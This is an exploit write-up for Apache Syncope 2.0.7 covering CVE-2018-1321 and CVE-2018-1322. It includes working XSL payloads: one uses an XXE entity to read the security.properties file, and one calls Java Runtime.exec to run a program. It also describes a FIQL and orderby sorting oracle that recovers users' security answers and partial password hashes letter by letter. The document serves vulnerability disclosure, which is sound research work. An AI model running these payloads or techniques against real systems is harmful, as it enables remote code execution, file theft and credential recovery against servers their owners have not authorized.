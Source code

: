 EXP
---

    # Exploit Title: Apache Syncope 2.0.7 - Remote Code Execution
    # Date: 2018-09-12
    # Exploit Author: Che-Chun Kuo
    # Vendor Homepage: https://syncope.apache.org/
    # Software Link: http://archive.apache.org/dist/syncope/
    # Version: 2.0.7
    # Tested on: Windows
    # Advisory: https://syncope.apache.org/security
    # CVE: CVE-2018-1321, CVE-2018-1322

    # Vulnerability 1: Remote code execution by users with report and template privileges
    # Description: A user with access to the Reports and Templates functionality can use XSL Transformations (XSLT)
    # to perform malicious operations, including but not limited to file read, file write, and code execution.

    # Apache Syncope uses XSLT to export report data into various formats. An attacker can perform malicious
    # operations by crafting a XSL template, binding the template to a report, executing, then exporting the report.
    # The following XSL can be used to read the Syncope security.properties file or execute the Windows
    # calc program, respectively.

    READ security.properties file
    -------------------------------------------
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE xsl:stylesheet [<!ENTITY file SYSTEM "..\webapps\syncope\WEB-INF\classes\security.properties">]>
    <xsl:stylesheet version="1.0"
        xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
        <xsl:template match="/">&file;</xsl:template>
    </xsl:stylesheet>

    EXECUTE Windows calc program
    -------------------------------------------
    <xsl:stylesheet version="1.0"
        xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
        xmlns:runtime="http://xml.apache.org/xalan/java/java.lang.Runtime"
        xmlns:process="http://xml.apache.org/xalan/java/java.lang.Process">
        <xsl:variable name="rtobject" select="runtime:getRuntime()"/>
        <xsl:variable name="process" select="runtime:exec($rtobject,'calc')"/>
        <xsl:variable name="waiting" select="process:waitFor($process)"/>
        <xsl:value-of select="$process"/>
    </xsl:stylesheet>

    # Vulnerability 2: Information disclosure via FIQL and ORDER BY sorting
    # Description: A user with entitlements to the /syncope/rest/users endpoint can recover sensitive
    # security values using the fiql and orderby parameters.

    # By default, Apache Syncope prevents sensitive values from being returned when querying
    # the /syncope/rest/users endpoint. Fields such as securityAnswers or password will always return null.
    # However the results returned can be filtered or sorted based on sensitive fields. By measuring how
    # the results are returned the values of the desired fields can be successfully recovered. The fiql parameter
    # can be used to recover full security answers, and the orderby parameter can be used to recover
    # full security answers and partial information about password hashes.

    # The fiql parameter allows filtering based on user attributes, including a user's security answer.
    # By using FIQL filters (i.e. "securityAnswer==a*", "securityAnswer==b*", etc...) a user's
    # securityAnswer can be recovered one letter at a time.

    # The orderby parameter allows sorting based on user attributes, including a user's security
    # answer and password. The following example shows how orderby sorting can be exploited.

    # User Bob exists with the security answer "test". A malicious user creates a user Alice with the
    # security answer "ta". The malicious actor then calls the /syncope/rest/users endpoint with orderby=securityAnswer".
    # By sorting using the "securityAnswer" attribute, the result will have Alice sorted ahead of Bob,
    # due to the value "ta" being before the value "test". By sequentially changing Alice's security
    # question and comparing the sorted result, Bob's security answer can be recovered one letter
    # at a time. A similar technique can be used to reveal partial information about user password hashes.

    Orderby Example Results:
    Alice's security answer, Order of results returned
    ta, [Alice, Bob]
    tb, [Alice, Bob]
    tc, [Alice, Bob]
    td, [Alice, Bob]
    te, [Alice, Bob]
    tf, [Bob, Alice]
    tea, [Alice, Bob]
    teb, [Alice, Bob]